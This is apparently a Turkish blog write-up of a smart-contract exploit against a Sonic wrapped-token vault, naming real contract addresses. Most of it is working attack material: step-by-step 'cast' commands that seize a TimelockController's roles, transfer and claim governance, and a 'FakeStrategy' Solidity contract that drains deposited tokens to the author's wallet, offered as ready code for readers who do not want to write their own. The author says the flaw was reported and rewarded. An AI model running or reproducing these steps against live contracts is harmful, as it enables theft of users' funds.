 ```yaml
---
title: "150.000 $"
description: ":s "
---
```


Ufak uyarı: Göstermiş olduğum örnek origin altyapısını kullanmakta, açığı bildirdim ve kapattılar ancak siz genede o kapıyı çok zorlamayın :)))

Öncelikle hedefimiz bu

![Ekrangörüntüsü2025 08 17013651 Pn](/images/Ekrangörüntüsü2025-08-17013651.png)

170k dolar değerinde wrapped coin bulunuyor, sonic altyapısını kullanan bu tokeni bende ilk defa zafiyet ararken buldum :D

Buranın içinde kod analizine girdiğimde bir açık yok ancak yönetici aktiviteleri için yönlendirme yaptığı adres çok sıkıntılı, kendi içinde tüm aktivitelerin yöneticisi olarak Governor rolü belirlenmiş ama governor rolüne atanan bir kimse yok yani isteyen ilk kişi kendisini yönetici yapabiliyordu

![Image(1) Avi](/images/image\(1\).avif)

- Bu kontratın Governor’ı `0x31a91336414d3b955e494e7d485a6b06b55fc8fb` adresindeki **TimelockController** kontratıydı.
- Orada `AccessControl` ile yönetilen `EXECUTOR` ve `PROPOSER` rolleri vardı, biz de role sahip olarak yönetimi ele geçirip kendimize Governor rolünü verdik.

## **ZURNANIN KOPTUĞU YER**

elimizdeki bilgiler aşşağıdaki gibi

- **WS token (Wrapped Sonic)**: `0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186`
- **TimelockController (Governor)**: `0x31a91336414d3b955e494e7d485a6b06b55fc8fb`
- **Senin cüzdanın** (örnek): `0x12dC3655fAC6388ACFe6753C0214Ecec34B87217`

#### **1- Rol Hashleri**

- cast keccak "PROPOSER_ROLE" # =\> PROPOSER_ROLE hash
- cast keccak "EXECUTOR_ROLE" # =\> EXECUTOR_ROLE hash
- cast keccak "TIMELOCK_ADMIN_ROLE" # =\> TIMELOCK_ADMIN_ROLE hash

#### **2- Mevcut konfigürasyonu okumak**

Gerekenler: **minDelay**, **kimde hangi rol var**, **executor açık mı** (0x000…000 herkesi ifade eder).

```bash
# min delay
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "getMinDelay()(uint256)"

# roller (örnek, hash’i yukarıdan roleHash ile değiştir)
cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

cast call 0x31a91336414d3b955e494e7d485a6b06b55fc8fb "hasRole(bytes32,address)(bool)" \
  <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000
```

Eğer `EXECUTOR` **0x000…000** ise: “herkes execute edebilir” anlamına gelir (kritik yanlış konfig).

`minDelay == 0` ise işler çok kolay (anında schedule→execute).

## **3- BATCH HAZIRLAMA**

Hedef batch (aynı anda çağrılacak fonksiyonlar):

1. **Timelock.grantRole(PROPOSER_ROLE, biz)** → ileriye dönük planlama serbestisi
2. **Timelock.grantRole(EXECUTOR_ROLE, 0x000…000 veya biz)** → herkes/biz execute edebilelim
3. **VaultCore.transferGovernance(attacker)** _veya_ VaultCore tarafındaki “governor set” türevi fonksiyon (sende VaultCore’un ABI’sine göre değişebilir)

Bazı VaultCore’larda iki adım vardır: `transferGovernance(newGov)` → sonra `claimGovernance()` (biz çağırırız).

#### **3.1 calldataları çıkar**

```bash
cast calldata "grantRole(bytes32,address)" <PROPOSER_ROLE_HASH> 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217

# grantRole(EXECUTOR_ROLE, 0x000...000)  (ya da kendi adresin)
cast calldata "grantRole(bytes32,address)" <EXECUTOR_ROLE_HASH> 0x0000000000000000000000000000000000000000

cast calldata "transferGovernance(address)" 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217
```

**3.2 batch parametrelerini kur**

```bash
TARGETS='["0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0x31a91336414d3b955e494e7d485a6b06b55fc8fb","0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186"]'

VALUES='[0,0,0]'
#yukarıda ürettiğin 3 calldata stringini sırayla koy
DATAS='["0x<calldata1>","0x<calldata2>","0x<calldata3>"]'
PREDECESSOR=0x0000000000000000000000000000000000000000000000000000000000000000
SALT=0x1111111111111111111111111111111111111111111111111111111111111111
DELAY=0   # (getMinDelay 0 değilse, o değeri kullan; 0 ise direkt yürür)
```

## **5- executeBatch**

herkese açıksa herkes çağırabilir

mindelay 0 geçtiyse direkt:

```bash
cast send 0x31a91336414d3b955e494e7d485a6b06b55fc8fb \
 "executeBatch(address[],uint256[],bytes[],bytes32,bytes32)" \
 "$TARGETS" "$VALUES" "$DATAS" $PREDECESSOR $SALT
```

Bu batch şunları yapar:

- Sana **PROPOSER** verir,
- **EXECUTOR**’ı genişletir (isteğe göre herkese),
- **VaultCore.transferGovernance(attacker)** çağrılır.

## **6- Claim Vakti**

```bash
cast send 0xa3c0eCA00D2B76b4d1F170b0AB3FdeA16C180186 "claimGovernance()"
```

Tüm bu adımlardan sonra Governance rolünü ele geçirmiş oldum yani 170k dolar değerindeki tokeni istediğim heryere sürebiliyordum. İçimde ki Allah korkusu ve iyi niyet bastı, gidip bu açığı raporladım. ücreti mukabilinde bir ödeme aldım sağolsunlar.

## **E BEN QOD YAZMAK İSTEMÜYOREM**

üşengeç göt, al sana kısa yol

https://remix.ethereum.org/ kendi metamask hesabınla giriş yap, 3 4 dolar birşey attım içine denemek için, burdada aynı adresi yokladığımda bu adrese hiçbir allahın kulu konmamıştı, yani gene gene gene istediğim adrese istediğim şekilde tokeni yollayabiliyodum.

<img
  src="/images/image(2).png"
  alt="Image(2) Pn"
  title="Image(2) Pn"
  style={{ width:"23%" }}
/>

aşşağıda vericeğim kodları tek tek contract kısmına girerekte claim yapabilirsin. ama metamask hesabına sonic alt yapısını kurman ve içerisinde min 3 dolar tutman lazım yoksa ağ çalışmaz, çalışınca böyle bir ekran alırsın sağ altta

![Image(3 Avi](/images/image\(3.avif)

Okuduğun için teşekkürler, arap çorbası oldu ama teknik bilen adam anlar abi, hayırlı günler dilerim. aşşağıya kodları bıraktım uğraşmak istemeyenler baksın, öptüm.

VAULTCORE.SOL

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VaultCore {
    address public governor;

    function initialize(address _priceProvider, address _oToken) external {
        require(governor == address(0), "Already initialized");
        governor = msg.sender;
    }
}
```

FAKESTRATEGY.SOL (PARA NASIL ÇEKİLİR ONUN KODU, MERAKLISINA GİDER..=)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract FakeStrategy {
    address public target = 0x12dC3655fAC6388ACFe6753C0214Ecec34B87217; // Benim adresim, para atacaklar şimdiden teşekkürler.

    function deposit(address asset, uint256 amount) external {
        IERC20(asset).transfer(target, amount); // buraya para çekiliyor
    }

    function supportsAsset(address) external pure returns (bool) {
        return true;
    }

    function checkBalance(address) external pure returns (uint256) {
        return 0;
    }

    function withdraw(address, address, uint256) external {}
}
```